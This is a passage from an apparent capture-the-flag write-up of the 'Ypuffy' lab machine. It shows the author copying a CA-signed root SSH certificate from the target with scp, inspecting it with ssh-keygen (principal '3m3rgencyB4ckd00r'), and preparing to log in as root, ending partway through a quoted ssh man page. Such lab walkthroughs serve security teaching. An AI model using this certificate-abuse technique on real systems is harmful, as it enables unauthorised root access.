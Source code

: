 #### scp Certificate

I can delete the public key here since I don't need it anymore (I have a
copy on my host). I'll need to get the certificate back. I could just
copy/paste, but I'll use `scp`:



    root@kali# scp -i alice.pem alice1978@10.10.10.107:/tmp/id_rsa_ypuffy_root-cert.pub .
    id_rsa_ypuffy_root-cert.pub                             100% 1504    73.0KB/s   00:00



#### Examine Certificate / Keys

I can look at my certificate and keys using `ssh-keygen`. I'll start by
getting the certificate information (`-L`) on the file:



    root@kali# ssh-keygen -L -f id_rsa_ypuffy_root-cert.pub 
    id_rsa_ypuffy_root-cert.pub:
            Type: ssh-rsa-cert-v01@openssh.com user certificate
            Public key: RSA-CERT SHA256:dWbA41JT/ytpdyy7lIKXaU/OQF6Rsl8XH7w7gG37fhI
            Signing CA: RSA SHA256:WCPFBuZqiubacS+hgAGylLHBjatuKa8zoWO2vFFycsg
            Key ID: "0xdf"
            Serial: 0
            Valid: from 2019-02-01T09:01:00 to 2020-01-31T09:02:19
            Principals: 
                    3m3rgencyB4ckd00r
            Critical Options: (none)
            Extensions: 
                    permit-X11-forwarding
                    permit-agent-forwarding
                    permit-port-forwarding
                    permit-pty
                    permit-user-rc



I can use `ssh-keygen` to check out the public key associated with my
private key and see that it matches, which is cool, since this private
key didn't go to the server, but it is connected to this certificate:



    root@kali# ssh-keygen -l -f id_rsa_ypuffy_root
    2048 SHA256:dWbA41JT/ytpdyy7lIKXaU/OQF6Rsl8XH7w7gG37fhI root@kali (RSA)



### Logging In as root

Now I can `ssh` in as root. From the `ssh` man page:

> <div>
>
> <div>
>
>          -i identity_file
>                  Selects a file from which the identity (private key) for public
>                  key authentication is read.  The default is ~/.ssh/id_dsa,
>                  ~/.ssh/id_ecdsa, ~/.ssh/id_ed25519 and ~/.ssh/id_rsa.  Identity
>                  files may also be specified on a per-host basis in the configu‐
>                  ration file.  It is possible to have multiple -i options (and
>                  multiple identities specified in configuration files).  If no
>                  certificates have been explicitly specified by the
>                  CertificateFile directive, ssh will also try to load certifi‐
>                  cate information from the filename obtained by appending
>                  -cert.pub to identity filenames.
>
> </div>